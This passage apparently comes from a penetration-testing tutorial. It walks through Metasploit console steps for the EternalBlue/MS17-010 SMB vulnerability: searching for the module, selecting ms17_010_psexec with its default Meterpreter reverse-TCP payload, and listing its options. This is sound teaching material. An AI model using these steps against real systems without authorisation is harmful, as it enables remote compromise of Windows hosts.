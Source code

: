 Once we have `Metasploit` running, we can search for our target application with the `search exploit` command. For example, we can search for the SMB vulnerability we identified previously:

```shell
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010

```

Tip: Search can apply complex filters such as search cve:2009 type:exploit. See all the filters with help search

We found one exploit for this service. We can use it by copying the full name of it and using `USE` to use it:

```shell
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

```

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the `show options` command:

```shell
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

```